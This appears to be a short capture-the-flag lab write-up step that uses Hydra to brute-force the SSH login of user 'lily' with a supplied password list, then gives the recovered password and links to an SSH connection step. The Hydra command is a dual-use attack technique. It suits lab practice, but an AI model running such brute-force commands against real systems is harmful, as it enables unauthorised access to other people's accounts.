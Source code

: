 You've got:
- An username: lily
- A password list: cherry-blossom.list
- An open port: 22

Using Hydra you can brute-force the login.

```
hydra -l lily -P <path-to-cherry-blossom-list> ssh://<remote-ip>
```

![[Bruteforcing the login with Hydra-20240717145306656.webp]]

Password: `Mr.$un$hin3`

**Next step:** [[SSH connection]]
